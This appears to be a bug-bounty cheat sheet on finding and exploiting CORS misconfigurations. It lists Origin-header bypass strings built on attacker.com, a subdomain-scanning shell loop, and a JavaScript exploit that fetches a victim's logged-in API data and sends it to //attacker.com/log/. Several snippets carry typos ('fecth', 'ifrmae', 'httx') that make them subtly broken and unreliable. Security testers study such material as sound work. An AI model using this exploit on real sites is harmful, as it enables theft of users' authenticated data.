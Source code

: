 # CORS Misconfigure

Let’s cover the methods to discover CORS misconfiguration

## **Methodology**

- Check if site works by the cookies or not
- it doesn't matter if site uses CORS or not
- Set `Origin` header in the request within the same URL
- if `ACAO` and `ACAC` presents try bypass methods

## Flaws and Bypasses

- Check origin function flaw, popular vectors (for `[https://domain.tld](https://domain.tld)` and `https://subdomain.domain.tld`)

```
https://**domian.tld**.attacker.com 
https://**domian.tld**attacker.com 
https://attacker.com**domain.tld**
https://**subdomian**.attacker**domain.tld**  
https://**subdomain.domain**.attacker.**tld**
https://**subdomain.domain**attacker.**tld 
null
attacker.computer**
```

Some bypasses:

```
https://website.com%60.attacker.com
https://foo@attacker.tld:80@trip.com
https://foo@evel-host%20@trip.com
```

- To be more precise, use a fuzzer
- if there is no bypass try fuzz different subdomain (`FUZZ.domain.tld` )in `Origin` header
    - Do not brute force blindly
    - Extract all live subdomains of target and make a list
    - Check the list to see what is the white list
    - Try to find XSS in the subdomain to extract data from target domain (can be used for XSS post exploitation)

## Exploitation

if you’ve found a misconfiguration, Do not rush for the report. Try to exploit the issue

- Open an http website
- Open the browser console
- Write your exploit code

```jsx
fecth("https://domian.tld/api/information/me",{
	credentials: "include"
})
.then((response) => {
	document.location = "//attacker.com/log/?key={0}".format(response.text());
});
```

The `null` exploitation:

```jsx
<ifrmae ...>
```

## Useful flow:

# Asset → httpx → CORS Misconfiguration

The automation code is:

```jsx
cat (subdomains/urls) | while read domain; do httx -H "Origin: https://$domain" -sr -silent; done
```

Make a GF filter:

```jsx
{
		"flags": "-HriE",
		"patterns":[
				"Access-Control-Allow-Origin"
	]
}
```

then work manually on them.